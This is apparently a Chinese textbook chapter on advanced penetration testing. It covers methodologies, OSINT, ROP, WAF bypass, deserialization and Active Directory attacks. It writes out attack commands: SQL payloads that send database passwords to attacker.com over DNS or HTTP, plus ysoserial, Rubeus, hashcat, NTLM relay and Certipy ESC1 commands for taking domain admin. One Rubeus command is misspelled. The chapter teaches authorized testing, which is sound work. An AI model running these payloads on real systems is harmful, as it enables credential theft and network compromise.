# 第15章 网络渗透测试 — 深度拓展

本章是网络渗透测试的进阶篇。在前几章掌握了扫描、漏洞利用、后渗透等基本技能之后，本章将带你进入专业渗透测试工程师的核心领域：从方法论体系的深度理解，到高级攻击技术的原理剖析，再到红队工程化和报告撰写的专业实践。无论你是准备考取 OSCP/OSCE 的学习者，还是正在团队中执行真实项目的渗透测试工程师，本章的内容都将帮助你建立系统化的认知框架。

## 一、渗透测试方法论深度解析

### 1.1 三大主流测试框架对比

渗透测试不是随意的"黑客行为"，而是有章可循的工程实践。业界有三大主流方法论框架，理解它们的异同是成为专业测试人员的第一步。

| 维度 | PTES | OWASP Testing Guide | MITRE ATT&CK |
|------|------|---------------------|---------------|
| **全称** | Penetration Testing Execution Standard | OWASP Web Security Testing Guide | Adversarial Tactics, Techniques & Common Knowledge |
| **适用范围** | 通用渗透测试（网络+Web+物理） | Web 应用安全测试 | 红队行动与威胁建模 |
| **覆盖阶段** | 7 个阶段（前期交互→报告） | 11 个测试类别 | 14 个战术 + 200+ 技术 |
| **优势** | 全生命周期覆盖，适合企业级项目 | Web 领域最详尽的检查清单 | 攻防知识库，适合威胁情报分析 |
| **局限** | 实操指导偏弱 | 仅覆盖 Web 层面 | 不含具体工具操作指南 |
| **学习价值** | 理解"该做什么" | 理解"Web 该测什么" | 理解"对手会怎么做" |

在实际项目中，三者往往配合使用：用 PTES 管理整体流程，用 OWASP 指导 Web 测试细节，用 ATT&CK 对标威胁行为。

### 1.2 PTES 七阶段详解

PTES 是最完整的渗透测试方法论，定义了从项目启动到报告交付的完整生命周期。每个阶段都有明确的输入、输出和质量标准。



#### 1.2.1 前期交互（Pre-engagement）

前期交互决定了整个项目的合法性和边界。这不是"走流程"，而是直接影响测试成败的关键阶段。

**核心输出文档：**

- **授权书（Authorization Letter）**：明确测试的时间窗口、目标范围、允许的技术手段。没有授权书就开始测试，在绝大多数司法管辖区都构成犯罪行为
- **范围定义（Scope of Work）**：列出所有目标 IP、域名、应用。范围之外的资产绝对不能触碰
- **规则约定（Rules of Engagement, RoE）**：约定是否允许 DoS 攻击、是否允许社会工程学、是否允许物理入侵、发现紧急漏洞时的升级流程
- **紧急联系人列表**：测试方和客户方各指定 24 小时联系人，确保出现意外（如服务宕机）时能立即响应

**常见坑点：**

- 授权书没有签名或过期日期 → 测试行为不受法律保护
- 范围定义含糊（如"所有服务器"）→ 可能误触生产环境或第三方系统
- 未约定数据处理方式 → 测试中获取的敏感数据如何保管和销毁成为争议点

#### 1.2.2 情报收集（Intelligence Gathering）

情报收集的质量直接决定后续攻击面的大小。一个经验丰富的渗透测试人员会花 40-60% 的时间在情报收集上。

**被动收集（不与目标直接交互）：**

| 技术类别 | 具体手段 | 典型工具 | 产出物 |
|---------|---------|---------|-------|
| 搜索引擎 | Google Dorks、Bing、Yandex | Google、Shodan、Censys | 泄露文档、子域名、设备信息 |
| 证书透明度 | CT 日志查询 | crt.sh、Censys CT | 子域名列表、证书持有者信息 |
| 被动 DNS | 历史解析记录 | SecurityTrails、VirusTotal | 历史 IP、邮件服务器、TXT 记录 |
| 社交媒体 | LinkedIn、GitHub、Twitter | theHarvester、LinkedIn OSINT | 员工名单、邮箱格式、技术栈 |
| 代码仓库 | 公开仓库搜索 | GitLeaks、TruffleHog | 硬编码凭证、API Key、内部架构 |
| WHOIS | 域名注册信息 | whois、DomainTools | 注册人、联系邮箱、NS 服务器 |

**主动收集（与目标直接交互）：**

```bash
# Nmap 综合扫描示例：TCP SYN + 服务版本 + OS 指纹 + 默认脚本
nmap -sS -sV -O -sC --top-ports 1000 -T4 -oA full_scan 192.168.1.0/24

# UDP 扫描（DNS、SNMP、TFTP 等关键 UDP 服务）
nmap -sU --top-ports 50 -T4 -oA udp_scan 192.168.1.0/24

# NSE 脚本扫描：漏洞检测 + 枚举
nmap --script vuln,enum -sV 192.168.1.100

# 子域名枚举（多工具交叉验证）
subfinder -d target.com -o subfinder_out.txt
amass enum -d target.com -o amass_out.txt
cat subfinder_out.txt amass_out.txt | sort -u > all_subdomains.txt
```

**情报收集的"冰山模型"：**



#### 1.2.3 威胁建模（Threat Modeling）

威胁建模是将收集到的情报转化为可执行的攻击策略。这一步经常被新手跳过，但它决定了你后续时间的分配是否合理。

**STRIDE 威胁模型：**

| 威胁类型 | 全称 | 渗透测试视角 | 示例攻击 |
|---------|------|-------------|---------|
| S | Spoofing（欺骗） | 冒充合法用户或系统 | 凭据窃取、Kerberos 票据伪造 |
| T | Tampering（篡改） | 修改数据或通信 | 中间人攻击、SQL 注入修改数据 |
| R | Repudiation（否认） | 否认执行过的操作 | 日志清除、无审计的接口 |
| I | Info Disclosure（信息泄露） | 获取敏感数据 | 目录遍历、错误信息泄露 |
| D | Denial of Service（拒绝服务） | 破坏可用性 | 资源耗尽攻击（通常不在范围内） |
| E | Elevation of Privilege（权限提升） | 获取更高权限 | 内核漏洞、配置错误 |

**攻击树构建方法：**

以获取域管理员权限为例：



#### 1.2.4 漏洞分析（Vulnerability Analysis）

漏洞分析分为自动化扫描和手动验证两个层面，缺一不可。自动化工具覆盖面广但误报率高；手动验证准确但覆盖有限。

**自动化扫描工具对比：**

| 工具 | 类型 | 优势 | 局限 | 适用场景 |
|------|------|------|------|---------|
| Nessus | 商业 | 漏洞库最全，报告专业 | 价格高，对网络有噪音 | 企业合规扫描 |
| OpenVAS | 开源 | 免费，可定制 | 扫描速度慢，误报多 | 预算有限的项目 |
| Nuclei | 开源 | 模板化，社区活跃 | 依赖模板质量 | CI/CD 集成、快速验证 |
| Qualys | SaaS | 无需部署，持续监控 | 订阅费用高 | 云环境持续扫描 |

**手动验证的关键原则：**

自动化扫描报告"可能存在 SQL 注入"，你需要做的是：

1. **确认可利用性**：能否实际提取数据？能否执行命令？
2. **评估影响范围**：是仅限当前页面还是影响整个数据库？
3. **排除误报**：是真实的漏洞还是扫描器的判断错误？
4. **记录复现步骤**：截图 + 请求/响应对，为报告提供证据

### 1.3 OWASP Testing Guide 核心测试域

OWASP 测试指南是 Web 渗透测试的"圣经"，覆盖了从信息收集到客户端测试的 11 个测试域。以下是每个域的核心关注点和高价值测试项：

**身份认证测试（Authentication Testing）：**

- 凭据传输是否使用 HTTPS（检查是否有 HTTP 降级）
- 密码策略强度（长度、复杂度、历史记录）
- 账户锁定机制（是否可被绕过、是否存在 DoS 风险）
- 多因素认证的实现缺陷（TOTP 重放、备份代码泄露）
- 记住我功能的 token 安全性（是否可预测、是否过期）

**授权测试（Authorization Testing）：**

```python
# IDOR（不安全的直接对象引用）检测模式
# 核心思路：用用户 A 的 token 访问用户 B 的资源
import requests

token_user_a = "eyJhbGciOiJIUzI1NiIs..."
token_user_b = "eyJhbGciOiJIUzI1NiIs..."

# 正常请求：用户 A 访问自己的订单
resp_a = requests.get(
    "https://api.target.com/v1/orders/1001",
    headers={"Authorization": f"Bearer {token_user_a}"}
)
print(f"用户A访问自己的订单: {resp_a.status_code}")

# IDOR 测试：用户 A 的 token 访问用户 B 的订单
resp_b = requests.get(
    "https://api.target.com/v1/orders/1002",  # 用户B的订单ID
    headers={"Authorization": f"Bearer {token_user_a}"}
)
print(f"用户A访问用户B的订单: {resp_b.status_code}")
if resp_b.status_code == 200:
    print("[!] IDOR 漏洞确认：未授权访问成功")
```

**会话管理测试：**

- Session ID 的随机性和长度（至少 128 位熵）
- Session 固定攻击（登录后 Session ID 是否更新）
- Session 超时策略（空闲超时和绝对超时）
- Cookie 属性（HttpOnly、Secure、SameSite）

### 1.4 MITRE ATT&CK 框架实战应用

ATT&CK 不仅仅是一个知识库，它是红队行动的规划工具和蓝队防御的评估标准。理解如何将 ATT&CK 应用到实际项目中，是高级渗透测试人员的必备能力。

**ATT&CK 矩阵在渗透测试中的应用：**



**用 ATT&CK 技术矩阵规划红队行动：**

以"初始访问"战术为例，ATT&CK 列出了 9 种技术，在实际项目中需要根据目标环境选择合适的组合：

| 技术 ID | 技术名称 | 适用场景 | 检测难度 |
|---------|---------|---------|---------|
| T1566.001 | 钓鱼附件 | 有邮件网关但用户安全意识弱 | 中 |
| T1566.002 | 钓鱼链接 | 目标使用 Web 邮件 | 中 |
| T1190 | 利用面向公众的应用 | 存在已知漏洞的 Web 服务 | 低 |
| T1133 | 外部远程服务 | 暴露的 VPN/RDP/SSH | 低 |
| T1078 | 有效账户 | 泄露凭据或弱密码 | 高 |
| T1195 | 供应链攻击 | 目标使用可入侵的第三方组件 | 极高 |

## 二、高级情报收集技术

### 2.1 OSINT 工程化流程

专业渗透测试的情报收集不是"想到什么搜什么"，而是有组织、有流程、有工具链的系统化作业。



**子域名枚举的多工具交叉验证策略：**

单一工具的子域名枚举覆盖率通常只有 60-70%。交叉验证是业界最佳实践：

```bash
#!/bin/bash
# 多源子域名枚举脚本
DOMAIN=$1
OUTPUT_DIR="recon_${DOMAIN}"
mkdir -p $OUTPUT_DIR

# 1. 证书透明度（crt.sh）
curl -s "https://crt.sh/?q=%.${DOMAIN}&output=json" | \
    jq -r '.[].name_value' | sort -u > $OUTPUT_DIR/crtsh.txt

# 2. Subfinder（被动枚举聚合器）
subfinder -d $DOMAIN -silent -o $OUTPUT_DIR/subfinder.txt

# 3. Amass（主动+被动）
amass enum -passive -d $DOMAIN -o $OUTPUT_DIR/amass_passive.txt

# 4. SecurityTrails API（如果有 API Key）
# curl -s "https://api.securitytrails.com/v1/domain/${DOMAIN}/subdomains" \
#     -H "APIKEY: YOUR_KEY" | jq -r '.subdomains[]' | \
#     sed "s/$/.${DOMAIN}/" > $OUTPUT_DIR/securitytrails.txt

# 合并去重
cat $OUTPUT_DIR/*.txt | sort -u > $OUTPUT_DIR/all_subdomains.txt
echo "[*] 发现 $(wc -l < $OUTPUT_DIR/all_subdomains.txt) 个唯一子域名"

# 存活验证
cat $OUTPUT_DIR/all_subdomains.txt | httpx -silent -o $OUTPUT_DIR/alive.txt
echo "[*] 存活子域名 $(wc -l < $OUTPUT_DIR/alive.txt) 个"
```

### 2.2 代码仓库敏感信息挖掘

GitHub、GitLab 等代码托管平台是泄露凭证的重灾区。据统计，2024 年 GitHub 上每天有超过 4000 个新的密钥被意外提交。

**常见泄露模式：**

| 泄露类型 | 搜索语法 / 正则 | 危害等级 |
|---------|----------------|---------|
| AWS Access Key | `AKIA[0-9A-Z]{16}` | 严重 |
| GitHub Token | `ghp_[a-zA-Z0-9]{36}` | 严重 |
| Slack Token | `xox[bporas]-[0-9a-zA-Z-]+` | 高 |
| 私钥文件 | `-----BEGIN (RSA | EC | OPENSSH) PRIVATE KEY-----` | 严重 |
| 数据库连接串 | `mysql://.*:.*@` 或 `postgres://` | 高 |
| .env 文件 | 搜索 `.env` 文件中的 `SECRET`、`KEY`、`PASSWORD` | 高 |

```bash
# 使用 GitLeaks 扫描本地仓库
gitleaks detect --source /path/to/repo --report-format json --report-path leaks.json

# 使用 TruffleHog 扫描远程仓库
trufflehog git https://github.com/target/repo.git --only-verified

# 历史提交扫描（即使当前版本已删除，git 历史仍然存在）
git log --all --diff-filter=D -- "*.env" "*.pem" "*.key" "*.p12"
git log --all -S "password" --oneline
```

### 2.3 被动 DNS 与历史情报

被动 DNS 数据库记录了域名的历史解析记录，对于发现目标曾经使用但已迁移的基础设施特别有价值。

**被动 DNS 的攻击面价值：**

- 发现已停用但 DNS 记录仍指向旧 IP 的子域名（可能被接管）
- 发现目标曾经使用过的 IP 段（可能仍有信任关系）
- 发现邮件服务器配置（MX 记录用于钓鱼攻击规划）
- 发现第三方 CDN/托管商（缩小攻击面）

```bash
# SecurityTrails 历史 DNS 查询
curl -s "https://api.securitytrails.com/v1/history/${DOMAIN}/dns/A" \
    -H "APIKEY: YOUR_KEY" | jq '.records[] | {first_seen, last_seen, values}'

# VirusTotal 关联域名
curl -s "https://www.virustotal.com/api/v3/domains/${DOMAIN}/subdomains" \
    -H "x-apikey: YOUR_KEY" | jq '.data[].id'
```

## 三、高级漏洞利用技术

### 3.1 二进制漏洞利用原理

二进制漏洞利用是渗透测试中最硬核的领域。理解底层原理不仅有助于发现新漏洞，更是绕过现代防御机制的基础。

#### 3.1.1 缓冲区溢出的分类与利用

| 溢出类型 | 原理 | 利用方式 | 难度 |
|---------|------|---------|------|
| 栈溢出 | 覆盖返回地址控制 EIP/RIP | 跳转到 shellcode 或 ROP chain | 入门 |
| 堆溢出 | 覆盖堆元数据或相邻对象 | 堆喷射 + 虚表劫持 | 中级 |
| 格式化字符串 | printf 系列函数读写任意内存 | 泄露栈数据、修改 GOT 表 | 中级 |
| 整数溢出 | 运算结果超出类型范围 | 缓冲区分配不足或索引越界 | 中级 |

**栈溢出利用的基本原理：**



#### 3.1.2 现代内存保护机制与绕过

现代操作系统实现了多层内存保护机制。每种机制的绕过技术都推动了漏洞利用技术的演进。

| 保护机制 | 作用 | 绕过技术 | 原理 |
|---------|------|---------|------|
| DEP/NX | 标记内存页不可执行 | ROP | 利用已有代码片段链式执行 |
| ASLR | 随机化内存地址 | 信息泄露 + 部分覆盖 | 先泄露基址，再精确跳转 |
| Stack Canary | 检测栈溢出 | 信息泄露 / fork 服务暴力破解 | 泄露 canary 值或利用 fork 环境 |
| CFI | 控制流完整性 | JOP / COP | 利用合法的间接跳转目标 |
| CFI + Shadow Stack | 防止 ROP | SROP | 利用 sigreturn 系统调用伪造完整栈帧 |

**ROP（Return-Oriented Programming）核心原理：**

ROP 不注入新代码，而是从已存在的可执行代码中寻找以 `ret` 指令结尾的小片段（gadget），将它们的地址串联在栈上，利用 `ret` 指令逐个跳转执行，最终完成任意操作。

```python
# ROP chain 示例概念（以 pwntools 为例）
from pwn import *

elf = ELF('./vulnerable_binary')
rop = ROP(elf)

# 1. 调用 puts 泄露 GOT 表中某个 libc 函数的真实地址
rop.puts(elf.got['puts'])
rop.call(elf.symbols['main'])  # 返回 main 再次触发溢出

# 2. 计算 libc 基址（真实地址 - 偏移）
# libc_base = leaked_addr - libc.symbols['puts']

# 3. 第二轮溢出：调用 system("/bin/sh")
# rop.system(next(libc.search(b'/bin/sh\x00')))

print(rop.dump())
```

### 3.2 高级 Web 漏洞利用

#### 3.2.1 SQL 注入高级技术

基础的 SQL 注入只能从当前数据库提取数据。高级技术可以实现文件读写、命令执行，甚至突破网络隔离。

**带外数据提取（Out-of-Band）：**

当页面不回显查询结果时，可以通过 DNS 或 HTTP 请求将数据带外传输：

```sql
-- MySQL：通过 DNS 带外提取数据
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users LIMIT 1), '.attacker.com\\share'));

-- MSSQL：通过 DNS 带外提取
DECLARE @data VARCHAR(1024);
SELECT @data = (SELECT TOP 1 password FROM users);
EXEC master..xp_dirtree '\\\\' + @data + '.attacker.com\\share';

-- Oracle：通过 HTTP 带外提取
SELECT UTL_HTTP.REQUEST('http://attacker.com/' || (SELECT password FROM users WHERE ROWNUM=1)) FROM dual;

-- PostgreSQL：通过 DNS 带外提取（需要 dblink 扩展）
SELECT * FROM dblink('host='||(SELECT password FROM users LIMIT 1)||'.attacker.com dbname=test', 'SELECT 1') AS t(c text);
```

**WAF 绕过技术对比：**

| 绕过技术 | 原理 | 适用 WAF | 示例 |
|---------|------|---------|------|
| 大小写混合 | WAF 正则区分大小写 | 基于正则的 WAF | `SeLeCt` → `SELECT` |
| 双重编码 | WAF 只解码一次 | URL 编码的 WAF | `%2527` → `%27` → `'` |
| 注释符分割 | WAF 未识别注释中的关键字 | 关键字匹配 WAF | `SEL/**/ECT` |
| 内联注释 | MySQL 特有语法 | 仅检测标准语法的 WAF | `/*!50000SELECT*/` |
| 参数污染 | WAF 和后端解析不一致 | HPP 不敏感的 WAF | `id=1&id=1' OR 1=1--` |
| Unicode 绕过 | WAF 未正确处理 Unicode | 对 Unicode 支持不完善的 WAF | `%u02B9` → `'`（某些 IIS 版本） |

#### 3.2.2 反序列化漏洞利用

反序列化漏洞是近年来影响最广泛、危害最严重的漏洞类型之一。其核心在于：应用程序将不可信的输入反序列化为对象时，攻击者可以构造恶意数据触发任意代码执行。

**各语言反序列化攻击对比：**

| 语言 | 序列化格式 | 利用工具 | 典型利用链 | 危害 |
|------|-----------|---------|-----------|------|
| Java | 原生序列化、JSON、XML | ysoserial、marshalsec | Commons Collections、Spring、Jackson | RCE |
| .NET | 原生序列化、JSON、XML | ysoserial.net | TypeConfuseDelegate、WindowsIdentity | RCE |
| PHP | `serialize()`/`unserialize()` | phpggc | Laravel、WordPress、Magento | RCE / 文件操作 |
| Python | `pickle`、PyYAML、JSON | 手工构造 | `__reduce__`、YAML `!!python/object` | RCE |
| Ruby | `Marshal`、YAML | 手工构造 | ERB 模板注入、Gem 依赖链 | RCE |

**Java 反序列化利用示例（概念）：**

```bash
# 使用 ysoserial 生成 Commons Collections 反序列化 payload
java -jar ysoserial.jar CommonsCollections1 "touch /tmp/pwned" > payload.bin

# 将 payload 通过 Burp Suite 发送到反序列化端点
# 常见端点特征：Content-Type: application/x-java-serialized-object
# 或参数名包含 action、object、data、token 等

# 检测反序列化端点的方法：
# 1. 检查 HTTP 响应头中的 Content-Type
# 2. 检查 Base64 编码的序列化数据特征（Java: rO0AB, PHP: Tzo, .NET: AAEAAAD）
# 3. 使用 Burp 插件 Java Deserialization Scanner 自动检测
```

### 3.3 反序列化 Payload 检测特征

快速判断一个 Base64 字符串是否为序列化数据：

| 语言 | Base64 前缀 | 原始字节特征 |
|------|-------------|-------------|
| Java | `rO0AB` | `0xAC 0xED 0x00 0x05` |
| .NET | `AAEAAAD` | Header with `0x00 0x01 0x00 0x00 0x00` |
| PHP | `Tzo` | `O:` 开头的序列化字符串 |
| Python pickle | `gASV` 或 `gAJj` | `0x80 0x04 0x95`（协议 4） |

## 四、横向移动与内网渗透

### 4.1 Active Directory 攻击体系

Active Directory（AD）是企业内网的核心。控制了域控制器就控制了整个企业网络。AD 攻击是内网渗透的重中之重。

#### 4.1.1 Kerberos 攻击全景



**Kerberos 攻击技术详解：**

| 攻击技术 | 前提条件 | 攻击原理 | 利用工具 |
|---------|---------|---------|---------|
| Kerberoasting | 任意域用户身份 | 任何域用户都能请求 SPN 的服务票据，票据用服务账户 Hash 加密，可离线破解 | Rubeus、Impacket |
| AS-REP Roasting | 存在不需要预认证的账户 | 禁用预认证的账户响应 AS-REP 时包含用密码加密的数据，可离线破解 | Rubeus、Impacket |
| 黄金票据 | krbtgt 账户 NTLM Hash | 伪造任意用户的 TGT，可访问域内所有服务 | Mimikatz、Rubeus |
| 白银票据 | 服务账户 NTLM Hash | 伪造特定服务的 TGS，绕过 KDC 直接访问服务 | Mimikatz、Rubeus |
| Pass-the-Ticket | 有效的 Kerberos 票据 | 将窃取的票据注入内存直接使用 | Mimikatz、Rubeus |

```powershell
# Rubeus Kerberoasting 示例
Rubeus.exe kerberoast /outfile:hashes.txt

# 使用 hashcat 离线破解 Kerberos 5 TGS-REP（模式 13100）
hashcat -m 13100 hashes.txt wordlist.txt -r rules/best64.rule

# AS-REP Roasting
Rubeus.exe asreoprt /outfile:asrep_hashes.txt
hashcat -m 18200 asrep_hashes.txt wordlist.txt
```

#### 4.1.2 NTLM 攻击与防护

NTLM 是 Windows 的旧版认证协议，虽然已被 Kerberos 取代，但在许多场景中仍然存在。NTLM 的核心弱点在于：认证过程中密码的哈希值（NTLM Hash）在网络中传输，可以被截获和重用。

**NTLM Relay 攻击原理：**



```bash
# Responder 捕获 NTLM 哈希 + ntlmrelayx 中继
# 终端 1：启动 Responder（禁用 SMB 和 HTTP 服务器，避免冲突）
responder -I eth0 -wrf --lm --disable-http

# 终端 2：启动 ntlmrelayx 中继到目标
impacket-ntlmrelayx -tf targets.txt -smb2support -socks
# -socks 参数创建 SOCKS 代理，后续可通过代理直接访问目标

# 中继成功后，通过代理以受害者身份执行命令
proxychains impacket-psexec DOMAIN/user@target -no-pass
```

#### 4.1.3 AD CS 攻击（Active Directory 证书服务）

AD CS 是近年来 AD 攻击的热点。2021 年 SpecterOps 发表的研究揭示了 8 种证书服务配置漏洞（ESC1-ESC8），其中多个漏洞可以直接获取域管理员权限。

| 漏洞 | 名称 | 原理 | 利用方式 |
|------|------|------|---------|
| ESC1 | 证书模板配置错误 | 模板允许客户端认证 + 请求者指定 SAN + 低权限用户可申请 | 申请域管理员证书 |
| ESC2 | 模板允许任意用途 | 证书 EKU 包含 Any Purpose | 可用于任意认证场景 |
| ESC3 | 证书请求代理 | 模板允许作为证书代理 | 为其他用户申请证书 |
| ESC4 | 证书模板 ACL 可写 | 低权限用户可修改模板配置 | 修改为 ESC1 配置后利用 |
| ESC6 | CA 标记为用户可指定 SAN | CA 级别的配置错误 | 与 ESC1 类似但更易利用 |
| ESC7 | CA ACL 可写 | 低权限用户有 CA 管理权限 | 修改 CA 配置或发放证书 |
| ESC8 | HTTP 证书注册接口 | NTLM Relay 到 HTTP 证书注册 | 中继到 AD CS 获取证书 |

```bash
# 使用 Certipy 发现 ESC 漏洞
certipy find -u user@domain.local -p 'Password123' -dc-ip 192.168.1.1 -vulnerable

# 利用 ESC1：请求域管理员证书
certipy req -u user@domain.local -p 'Password123' \
    -ca CA-SERVER-CA -template VulnerableTemplate \
    -upn administrator@domain.local

# 使用获取的证书认证
certipy auth -pfx administrator.pfx
# 获得 NTLM Hash，可直接用于 Pass-the-Hash
```

### 4.2 横向移动技术矩阵

横向移动是从一台被攻陷的主机扩展到其他主机的过程。选择合适的技术取决于目标环境的安全配置和网络分段。

| 技术 | 协议/服务 | 工具 | 检测难度 | 适用场景 |
|------|----------|------|---------|---------|
| PsExec | SMB (445) | Impacket-psexec | 低（已被广泛检测） | 快速执行，非隐蔽场景 |
